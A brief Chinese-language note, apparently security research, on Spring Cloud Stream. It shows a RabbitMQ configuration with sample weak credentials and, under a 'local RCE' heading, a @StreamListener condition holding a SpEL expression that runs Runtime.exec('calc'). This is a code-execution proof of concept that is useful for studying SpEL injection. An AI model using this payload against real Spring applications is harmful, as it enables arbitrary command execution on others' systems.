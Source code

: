 # Spring cloud stream

这个是一个消息中间件的问题

所以需要有RabbitMq这样的服务。

```
environment:
            spring:
              rabbitmq:
                host: 192.168.2.88
                port: 5672
                username: admin
                password: 123
```

consumer和produ都需要修改application.yml中的配置

## 本地RCE

```
@StreamListener(value = Sink.INPUT, condition = "T(Runtime).getRuntime().exec('calc')")
```
